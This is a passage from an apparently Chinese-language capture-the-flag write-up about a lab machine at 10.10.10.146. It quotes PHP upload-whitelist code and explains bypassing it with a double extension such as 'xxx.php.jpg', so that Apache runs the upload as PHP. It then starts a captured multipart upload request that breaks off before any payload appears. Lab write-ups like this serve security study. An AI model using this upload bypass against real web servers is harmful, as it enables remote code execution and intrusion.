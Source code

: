 $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {

      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```
这里主要是做了白名单限制，允许扩展名后缀是```'.jpg', '.png', '.gif', '.jpeg'```


```
chmod(UPLOAD_DIR . $name, 0644);
```

最后给了上传的文件可读权限


结合apache的版本，我用谷歌搜索到了[这篇文章](https://www.cnblogs.com/shley/p/14797164.html),期中提到

> Apache HTTPD 支持一个文件拥有多个后缀，并为不同后缀执行不同的指令

以及

> 如果在apache配置文件中添加了php对应的解析的话，我们上传的文件中只要包含.php，php文件就会被执行

因此，我们只需要正常上传一张图片，图片文件的名称只要是包含```xxx.php.jpg```就可以绕过上传的限制，payload写在图片内容上即可

burpsuite截断以后的payload为：

```
POST /upload.php HTTP/1.1

Host: 10.10.10.146

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------2789699860384911690836726261

Content-Length: 55138

Origin: http://10.10.10.146

Connection: close

Referer: http://10.10.10.146/upload.php

Upgrade-Insecure-Requests: 1



-----------------------------2789699860384911690836726261
